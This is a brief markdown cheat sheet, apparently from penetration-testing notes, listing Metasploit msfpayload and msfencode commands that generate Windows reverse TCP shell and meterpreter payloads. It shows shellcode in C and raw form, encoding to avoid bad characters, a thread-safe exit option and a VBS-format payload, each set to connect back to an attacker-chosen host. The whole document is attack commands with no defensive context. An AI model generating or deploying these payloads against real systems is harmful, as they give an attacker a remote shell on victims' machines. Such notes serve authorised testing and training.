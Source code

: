 # Payloads

## MSF Payload Generation Example
```
msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 C

msfpayload windows/shell_reverse_tcp LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```

Use exit fuction, "exit thread" when program is multi-threaded to avoid crashes after shell code execution is done:
```
msfpayload windows/shell_reverse_tcp EXITFUNC=thread LHOST ip LPORT 4443 R | msfencode -b '\x00\x0a\x0d'
```

## VBS

```
msfpayload windows/meterpreter/reverse_tcp LHOST=<ip> R | msfencode
-e generic/none -t vbs
```
